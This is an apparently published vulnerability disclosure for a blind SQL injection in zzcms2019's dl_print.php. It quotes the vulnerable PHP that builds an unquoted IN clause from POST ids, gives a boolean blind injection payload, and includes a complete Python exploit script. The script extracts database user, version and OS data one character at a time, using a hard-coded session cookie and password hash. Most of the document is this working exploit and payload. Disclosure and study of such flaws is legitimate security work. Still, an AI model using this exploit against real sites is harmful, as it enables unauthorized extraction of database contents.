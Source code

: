 # zzcms2019 SQL injection vulnerability in dl_print.php


Local testing requires the user group to have the right to download proxy information (for convenience, open directly in the background, simulate real vip users)

The vulnerability is located at line 78 of `/dl/dl_print.php` and is used to output information. Some of the key code is shown below

```php
if(!empty($_POST['id'])){
    for($i=0; $i<count($_POST['id']);$i++){
    $id=$id.($_POST['id'][$i].',');
    }
	
}else{
	$founderr=1;
	$ErrMsg="<li>操作失败！请先选中要下载的信息</li>";
}
$id=substr($id,0,strlen($id)-1);//去除最后面的","

. . .   . . .

if (strpos($id,",")>0){
	$sql="select * from zzcms_dl where passed=1 and id in (". $id .") ";
	}else{
	$sql="select * from zzcms_dl where passed=1  and id=".$id." order by id desc";
}
```

Since and id in (".$id.") does not use single quotes, the global GPC filter of ZZCMS does not work here and constructs Boolean conditions directly for blind injection.

The first step is to register a company type account at the front desk and then send the agent for later injection

![](https://i.loli.net/2019/09/20/XhR1fFP73qlAn6M.png)

Secondly, the user group of the current user has the right to print the agent information (local test, just give the permission in the background, simulate the operation of VIP users in the real environment).

![](https://i.loli.net/2019/09/20/TkNo9zuVOZvMbGU.png)

payload：

`id[0]=0,(if(((ascii(substr((select @@version),1,1)))=53),1,0)))#`


Here is exp:

```python
#coding: utf-8
import requests
import string

url = 'http://{}/dl/dl_print.php'

#header 头，自己根据实际环境做修改
headers = {
'Host':'{}',
'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:68.0) Gecko/20100101 Firefox/68.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded',
'Content-Length':'23',
'Connection':'keep-alive',
'Cookie':'{}',
'Upgrade-Insecure-Requests':'1'
}

def Sqli(host,sql):
	global url
	url = url.format(host)
	sqli = "ascii(substr(({}),{},1)))={}"
	sqli_2 = "0,(if((({}),1,0)))#"
	res_data = ""
	s = requests.session()
	i = 1
	while 1:
		tmp_data = res_data
		for c in string.printable:
			post_sqli_data = sqli_2.format(sqli.format(sql,str(i),ord(c)))
			data = {'id[0]':post_sqli_data}
			res = s.post(url,data=data, headers=headers)
			if '13333333333' in res.text: #自己根据实际环境做修改
				res_data += c
				print (res_data)
				break
		i += 1
		if tmp_data == res_data:
			print ('完成')
			return 

if __name__ == "__main__":
	#设置 host 地址
	host = "127.0.0.1:9000"
	#设置用户 cookie
	user_cookie = "PHPSESSID=dh6bhd10g47tjc4jlhqf2leqnn; UserName=admin2; PassWord=343b1c4a3ea721b2d640fc8700db0f36"
	sql = "select group_concat(user(),version(),@@version_compile_os)"
	headers['Host'] = headers['Host'].format(host)
	headers['Cookie'] = headers['Cookie'].format(user_cookie)
	Sqli(host,sql)
```

Injection results


![]( https://i.loli.net/2019/09/20/gkoc25iJPB9v4QY.png)